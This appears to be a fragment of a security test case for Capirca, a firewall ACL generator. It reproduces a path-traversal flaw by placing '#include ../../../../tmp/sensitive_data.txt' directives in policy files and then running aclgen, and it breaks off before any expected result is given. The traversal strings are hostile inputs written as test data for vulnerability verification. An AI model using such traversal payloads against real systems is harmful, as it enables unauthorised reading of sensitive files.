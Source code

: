 - **Security Test Case:**
    1. **Setup:**
        - Assume you have a Capirca project setup with a base policy directory (e.g., `./policies`) and a definitions directory (e.g., `./def`).
        - Create an 'includes' subdirectory within the policy directory (e.g., `./policies/includes/`).
        - Place a legitimate include file (e.g., `legitimate.inc`) inside the 'includes' directory.
        - Create a sensitive file outside the policy directory but accessible by the user running Capirca (e.g., `/tmp/sensitive_data.txt`) containing some identifiable content like "THIS_IS_SENSITIVE_DATA".
        - Create a malicious include file (e.g., `malicious_include.inc`) within the 'includes' directory that, for testing purposes, attempts to include the sensitive file:
          ```
          # malicious_include.inc
          #include '../../../../tmp/sensitive_data.txt'
          ```
        - Alternatively, for a simpler test without creating a malicious include file, directly embed the path traversal in the main policy file.

    2. **Craft Malicious Policy File:**
        - Create a new policy file (e.g., `policies/pol/malicious_policy.pol`) with the following content:
          ```
          header {
            target:: juniper test-filter inet
          }

          term test-include {
            action:: accept
            verbatim:: juniper "This is before included content:"
            verbatim:: juniper "#include '../malicious_include.inc'"  # or #include '../../../../tmp/sensitive_data.txt'
            verbatim:: juniper "This is after included content:"
          }
          ```
           - Or directly:
          ```
          header {
            target:: juniper test-filter inet
          }

          term test-include {
            action:: accept
            verbatim:: juniper "This is before included content:"
            verbatim:: juniper "#include '../../../../tmp/sensitive_data.txt'"
            verbatim:: juniper "This is after included content:"
          }
          ```

    3. **Run Capirca:**
        - Execute the Capirca tool to generate ACLs, targeting the malicious policy file:
          ```bash
          ./aclgen --policy_file policies/pol/malicious_policy.pol --output_directory ./filters
          ```
